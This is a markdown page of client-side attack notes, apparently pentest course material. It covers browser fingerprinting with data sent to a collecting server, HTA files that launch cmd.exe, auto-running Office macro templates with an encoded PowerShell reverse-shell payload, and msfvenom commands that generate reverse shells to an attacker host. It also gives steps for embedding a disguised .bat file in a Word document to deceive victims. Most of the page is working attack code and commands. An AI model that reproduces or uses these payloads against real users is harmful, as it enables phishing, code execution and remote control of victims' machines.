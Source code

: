 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
### sample: prints out the user-agent and platform components
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note:
*In this example,* the POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address.

A comment is added for when targeting a remote server
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---

# HTML Applications (HTA)

### sample hta
```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	<head>
	<body>
		<script>
			//closes the additional windows behind our command prompt
			self.close();
		</script>
	</body>
</html>
```

- sandbox protection of Internet Explorer, also called Protected Mode is enabled by default
- The victim can select Allow to permit the action,
	which will execute the **JavaScript code** and launch cmd.exe

### Generating HTA with `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh -o evil.hta
```

### CVE-2017-0199

### [Demiguise Tool](https://github.com/nccgroup/demiguise)

---

# Office Macros
### macro layout
```vbscript
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Str As String

    <PAYLOAD>

    CreateObject("Wscript.Shell").Run Str
End Sub
```

### Payload is the same as the HTA attack
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh
```
In VBA, for strings, there is a character limit of 255 characters.

However, this restriction does not apply to strings stored in variables, so we can split the command into multiple lines and concatenate them.

it should be like below: 

```vbscript
Str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAF"
Str = Str + "AAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkA"
```

the powershell script in the **MurderShell project** can take care of the splitting.

---

# Object Linking and Embedding (Awesome)

## Step #1: create a malicous bat file and give it a benign name like `OfficeUpdater.bat`
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f psh-cmd -o OfficeUpdater.bat
```
## Step #2: create an office word document. click `insert` --> `object`
![CSA-OLE-1](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-1.jpg)

## Step #3: After selecting the `create from file` tab, browse to the location of the `.bat` file we generated. Also use a benign `icon` and `caption` to lower suspicion.
![CSA-OLE-2](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-2.jpg)

![CSA-OLE-3](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-3.jpg)

## Step #4: When the user clicks on the object, a pop-up will be there asking if the user wants to run it.
![CSA-OLE-4](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-4.jpg)

## You will get back a shell if `'Run'` is clicked
![CSA-OLE-5](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-5.jpg)